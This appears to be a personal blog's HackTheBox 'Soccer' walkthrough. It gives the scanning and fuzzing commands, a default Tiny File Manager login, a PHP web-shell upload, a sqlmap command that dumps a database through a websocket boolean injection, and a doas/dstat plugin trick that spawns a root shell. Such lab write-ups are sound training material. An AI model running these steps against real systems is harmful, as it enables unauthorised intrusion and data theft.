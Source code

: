 ```yaml
---
layout: post
title: "Soccer"
date: 2024-12-28
author: cotes
categories: [Writeup, HackTheBox]
tags: [htb, writeup, security, linux, web, privesc]
pin: true
math: true
mermaid: true
image:
  path: /assets/img/favicons/Hack-The-Box-logo.png
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
  alt: Hackthebox Image
---
```


first nmap

```bash
sudo nmap -sC -sV -p- -oN soccer -T4 10.10.11.194
```
![/home/user/myblog/_site](/assets/img/posts/Soccer/Pasted image 20240524224700.png)

starting with the web port 80

nothing interesting at the main page let's fuzz
![/home/user/myblog/_site](/assets/img/posts/Soccer/Pasted image 20240524224828.png)

I found a cms tiny
```bash
ffuf -u http://soccer.htb/FUZZ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -ic
```
![/home/user/myblog/_site](/assets/img/posts/Soccer/Pasted image 20240524224903.png)

we have tiny file manager
![/home/user/myblog/_site](/assets/img/posts/Soccer/Pasted image 20240524224934.png)

a quick google search got as the default creds `admin admin@123`
we can upload anything we want , so let's upload a php file and get rce 

I used [phpbash](https://github.com/Arrexel/phpbash)
![/home/user/myblog/_site](/assets/img/posts/Soccer/Pasted image 20240524225229.png)

![/home/user/myblog/_site](/assets/img/posts/Soccer/Pasted image 20240524225251.png)

nothing Interesting , I will run `linpeas`

we got another subdomain , listening on port 80 
![/home/user/myblog/_site](/assets/img/posts/Soccer/Pasted image 20240524225701.png)

after adding it to our /etc/hosts file  
![/home/user/myblog/_site](/assets/img/posts/Soccer/Pasted image 20240524225753.png)

same website but new functionality 

let's create new account and login into the app 

we got this `/check` page , it seems like it's check for a ticket if it's available in the database 

![/home/user/myblog/_site](/assets/img/posts/Soccer/Pasted image 20240524230140.png)

![/home/user/myblog/_site](/assets/img/posts/Soccer/Pasted image 20240524230153.png)

the weird thing is I try to intercept this request but I can't catch it 
![/home/user/myblog/_site](/assets/img/posts/Soccer/Pasted image 20240524230353.png)

if we want to catch web sockets , we need to start intercepting from the beginning , like from the sign-in part that's at least what I learned from watching ippsec solving it 

![/home/user/myblog/_site](/assets/img/posts/Soccer/Pasted image 20240524230529.png)

there's a  boolean injection via this websocket , if the query i correct returns Exists else return doesn't exist
![/home/user/myblog/_site](/assets/img/posts/Soccer/Pasted image 20240524230732.png)
we can use `sqlmap` to exploit it 
```bash
sqlmap -u ws://soc-player.soccer.htb:9091  --data '{"id":"80989"}' --dbms  mysql --risk 3 --level 5 --batch --dump --thread 10
```
![/home/user/myblog/_site](/assets/img/posts/Union/Pasted image 20240524230947.png)

we can ssh as `player`
![/home/user/myblog/_site](/assets/img/posts/Soccer/Pasted image 20240524231335.png)

```bash
find / -perm -4000 2>/dev/null
```
![/home/user/myblog/_site](/assets/img/posts/Soccer/Pasted image 20240524231328.png)

![/home/user/myblog/_site](/assets/img/posts/Soccer/Pasted image 20240524231422.png)


small research about `doas` seems like small sudo  and we need to find a `doas.conf` file so we now which command is running 

we can run `dstat`` as root
`cat /usr/local/etc/doas.conf`
![/home/user/myblog/_site](/assets/img/posts/Soccer/Pasted image 20240524231722.png)
[gtfobins](https://gtfobins.github.io/gtfobins/dstat/)
![/home/user/myblog/_site](/assets/img/posts/Soccer/Pasted image 20240524231758.png)

```bash
echo 'import os; os.execv("/bin/bash", ["bash"])' > /usr/local/share/dstat/dstat_d0s3nt.py`
doas -u root /usr/bin/dstat --d0s3nt
```

![/home/user/myblog/_site](/assets/img/posts/Soccer/Pasted image 20240524232504.png)